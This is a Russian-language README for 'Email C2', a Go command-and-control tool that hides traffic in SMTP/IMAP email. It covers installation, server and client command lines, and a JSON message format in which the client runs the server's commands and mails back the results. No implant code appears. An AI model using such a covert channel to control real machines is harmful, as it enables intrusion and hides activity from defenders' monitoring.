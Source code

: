 
# Email C2 (Command & Control)

## Гайд по поднятию SMTP 
https://concrete-swift-b54.notion.site/Email-C2-14686eb850e9806f80b4cd721a44b67f?pvs=4

## Описание
Email C2 - это инструмент командного управления, использующий электронную почту в качестве скрытого канала связи. Проект разработан на языке Go 
## Особенности
- Скрытая коммуникация через SMTP/IMAP протоколы
- JSON-форматированные сообщения
- Уникальные UUID для каждой сессии
- Поддержка различных почтовых серверов
- Кросс-платформенная совместимость (Windows/Linux/macOS)

## Требования
- Go 1.16 или выше
- Доступ к SMTP и IMAP серверам
- Учетные записи электронной почты для сервера и клиента

## Зависимости
```go
require (
    github.com/emersion/go-imap
    github.com/emersion/go-sasl
    github.com/google/uuid
    gopkg.in/gomail.v2
)
```

## Установка
1. Клонируйте репозиторий:
```bash
git clone https://github.com/puni359/C2-Email
```

2. Перейдите в директорию проекта:
```bash
cd С2-Email
```

3. Установите зависимости:
```bash
go mod download
```

## Использование

### Сервер
```bash
go run cmd/server/main.go -imap "mail.server.com:993" -smtp "mail.server.com" -email "server@example.com" -client "client@example.com" -password "server_password"
```

Параметры сервера:
- `-imap`: Адрес IMAP сервера с портом
- `-smtp`: Адрес SMTP сервера
- `-email`: Email адрес сервера
- `-client`: Email адрес клиента
- `-password`: Пароль от почтового ящика сервера

### Клиент
```bash
go run cmd/client/main.go -imap "mail.server.com:993" -smtp "mail.server.com" -email "client@example.com" -recipient "server@example.com" -password "client_password"
```

Параметры клиента:
- `-imap`: Адрес IMAP сервера с портом
- `-smtp`: Адрес SMTP сервера
- `-email`: Email адрес клиента
- `-recipient`: Email адрес сервера
- `-password`: Пароль от почтового ящика клиента

## Принцип работы
1. Клиент подключается и генерирует уникальный UUID сессии
2. Сервер отправляет команды в формате JSON
3. Клиент выполняет команды и отправляет результаты
4. Сервер получает и обрабатывает ответы

## Структура сообщений
```json
{
    "type": "command/response",
    "uuid": "уникальный-идентификатор-сессии",
    "content": "содержимое-команды-или-ответа",
    "timestamp": 1234567890
}
```

## Безопасность
⚠️ Важные замечания:
- Отсутствует дополнительное шифрование сообщений
- Проект предназначен для исследовательских целей
- Не рекомендуется использовать в проде (хотя вам решать 

## Планируемые улучшения
- Добавление end-to-end шифрования
- Улучшенная система логирования
- Поддержка конфигурационных файлов
- Расширенная обработка ошибок
- Улучшенный механизм аутентификации
- WinApi outlook а почему нет? 

## Отказ от ответственности
Данный инструмент создан исключительно в исследовательских и образовательных целях. Автор не несет ответственности за любое неправомерное использование данного программного обеспечения.



